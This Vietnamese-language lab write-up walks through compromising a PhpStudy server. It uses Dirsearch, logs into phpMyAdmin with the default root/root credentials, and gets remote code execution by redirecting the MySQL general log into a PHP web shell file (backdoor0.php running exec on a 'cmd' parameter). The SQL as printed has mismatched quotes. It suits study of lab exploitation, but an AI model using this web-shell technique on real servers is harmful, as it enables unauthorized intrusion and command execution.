 "PhpStudy is a program integration package for a PHP debugging environment. The package integrates the latest Apache+PHP+MySQL+phpMyAdmin+Zend Optimizer. It can be installed at one time and used without configuration. It is a very convenient and useful PHP debugging environment."

Sử dụng Dirsearch ta tìm được

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/13.jpg)

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/14.jpg)

Thử với username/password mặc định: root/root -> đăng nhập thành công vào phpmyadmin

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/15.jpg)

Thử lấy shell bằng cách này nhưng không được vì MySQL server đang chạy option --secure-file-priv (The --secure-file-priv option is a system variable used by MySQL to limit the ability of the users to export or import data from the database server.)
https://sebhastian.com/mysql-fix-secure-file-priv-error/ 

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/16.jpg)

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/17.jpg)

secure_file_priv là NULL, nghĩa là Mysql không được phép export và import, do đó sẽ bị báo lỗi. Để thực hiện xuất câu lệnh thành công, bạn cần sửa đổi my.ini tệp trong thư mục Mysql và thêm vào [mysqld] secure_file_priv =""

Vậy ta sẽ đi tìm cách khác 
#### RCE via MySQL Log File
```
show variables like '%general%';
```

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/18.jpg)

```
general_log  #đề cập đến trạng thái lưu log
general_log_file  #đề cập đến đường dẫn lưu trữ log
```

Vậy trong trường hợp này nếu general_log được là ON và thay đổi đường dẫn general_log_file và ghi cái thứ gì đó thú vị vào. Liệu chúng ta có thể getshell?
```
SET GLOBAL general_log = ‘on’;
SET GLOBAL general_log_file = “C:/phpStudy/www/backdoor0.php’;
SELECT ' <?php echo exec($_GET["cmd"]);?>';
```
Ta biết được đường dẫn qua đây

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/19.jpg)

Thử vào giao diện của Windows 7 để xem log được lưu lại:

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/20.jpg)

